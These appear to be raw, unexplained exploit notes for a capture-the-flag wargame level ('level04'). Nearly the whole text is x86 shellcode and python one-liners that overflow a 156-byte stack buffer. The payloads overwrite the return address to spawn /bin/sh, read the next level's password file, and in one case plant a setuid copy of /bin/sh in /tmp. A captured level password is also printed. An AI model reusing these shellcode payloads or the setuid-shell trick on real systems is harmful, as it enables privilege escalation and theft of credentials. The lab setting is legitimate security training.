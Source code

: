 

set follow-fork-mode child

\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80

'\xeb\x0d\x5f\x31\xc0\x50\x89\xe2\x52\x57\x54\xb0\x3b\xcd\x80\xe8\xee\xff\xff\xff/bin/sh'

0xffffd670

/home/users/level04/level04 <<< $(python -c "print('\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80\x08\x04\xa0\x47' + '\xFF'*(156 - 24 - 4) + '\x70\xd6\xff\xff')")

27 octets:
/home/users/level04/level04 <<< $(python -c "print('\xeb\x0d\x5f\x31\xc0\x50\x89\xe2\x52\x57\x54\xb0\x3b\xcd\x80\xe8\xee\xff\xff\xff/bin/sh' + '\xFF'*(156 - 27 - 4) + '\x70\xd6\xff\xff')")


080486A0

/home/users/level04/level04 <<< $(python -c "print('\xeb\x0d\x5f\x31\xc0\x50\x89\xe2\x52\x57\x54\xb0\x3b\xcd\x80\xe8\xee\xff\xff\xff/bin/sh' + '\xFF'*(156 - 27 - 4) + '\xa0\x86\x04\x08')")

ret adress
0xf7e45513


stack tab start
0xffffd670

stck ret
0xffffd70c

0xffffd70c - 0xffffd670 = 156



return address of main		: 0xf7e45513

address of array 			: 0xffffd670 = '\xff\xff\xd6\x70'[::-1]
address of return address	: 0xffffd70c

'\x31\xc0\x40\x89\xc3\xcd\x80'


\x31\xc0\x40\xcd\x80

/home/users/level04/level04 <<< $(python -c "print('\x31\xc0\x40\xcd\x80' + '\xFF'*(156 - 5) + '\xff\xff\xdd\xa0'[::-1])")

<<< $(python -c "print(c + '\xFF'*(156 - 27 - 4 + 4) + '\xa0\x86\x04\x08')")

<<< $(python -c "print('\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80' + '\xFF'*(156 - 24) + '\xff\xff\xd6\x70'[::-1])")

<<< $(echo $(cat /tmp/shdist)$(python -c "print('\xFF'*(176 - 98) + '\xff\xff\xd6\x70'[::-1])"))


 /home/users/level04/level04 <<< $(python -c "print('\x29\xc0\xb0\002̀\x85\xc0u\002\xeb\005)\xc0@̀)\xc0)\xdb)ɰF̀\xeb*^\x89v2\x8d^\b\x89^6\x8d^\v\x89^:)\xc0\x88F\a\x88F\n\x88F1\x89F>\x87\xf3\xb0\v\x8dK2\x8dS>̀\xe8\xd1\xff\xff\xff/bin/sh -c cp /bin/sh /tmp/sh; chmod 4755 /tmp/sh' + '\xFF'*(176 - 24 - 4) + '\xff\xff\xd6\x70'[::-1])")
Give me some shellcode, k

ret adress with nop env = 0xffffde40 = '\xff\xff\xde\x40'[::-1]

adress tab with no env = 0xffffdda0 = '\xff\xff\xdd\xa0'[::-1]

echo $(echo $(unset $(env | cut -d= -f1); (/bin/echo $(/usr/bin/python -c "print('\xeb\x0d\x5f\x31\xc0\x50\x89\xe2\x52\x57\x54\xb0\x3b\xcd\x80\xe8\xee\xff\xff\xff/bin/sh' + '\xFF'*(156 - 27) + '\xff\xff\xdd\xa0'[::-1])"); /bin/echo 'cat /home/users/level05/.pass') | /home/users/level04/level04 ))

echo $(echo $(unset $(env | cut -d= -f1); (/bin/echo $(/usr/bin/python -c "print('\xFF'*156 + '\xff\xff\xde\x40'[::-1] + '\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80')")) | /home/users/level04/level04 ))

++++++++++++++++++++++++++++++++++++

echo $(echo $(unset $(env | cut -d= -f1); (/usr/bin/python -c "print('\xFF'*156 + '\xff\xff\xde\x40'[::-1] + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80')" ; /bin/echo '/bin/cat /home/users/level05/.pass') | /home/users/level04/level04 ))

++++++++++++++++++++++++++++++++++++


# FORK

'\x31\xc0\x50\xb0\x02\xcd\x80'

echo $(echo $(unset $(env | cut -d= -f1); (/usr/bin/python -c "print('\xFF'*156 + '\xff\xff\xde\x40'[::-1] + '\x31\xc0\x50\xb0\x02\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80')" ; /bin/echo '/bin/cat /home/users/level05/.pass') | /home/users/level04/level04 ))
no exec() for you 3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN


commande avant :
echo $(echo $(unset $(env | cut -d= -f1); (/usr/bin/python -c "print('\x31\xc0\x50\xb0\x02\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80' + '\xFF'*(156 - 31) + '\xff\xff\xdd\xa0'[::-1])" ; /bin/echo '/bin/cat /home/users/level05/.pass') | /home/users/level04/level04 ))

no exec() for you 3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
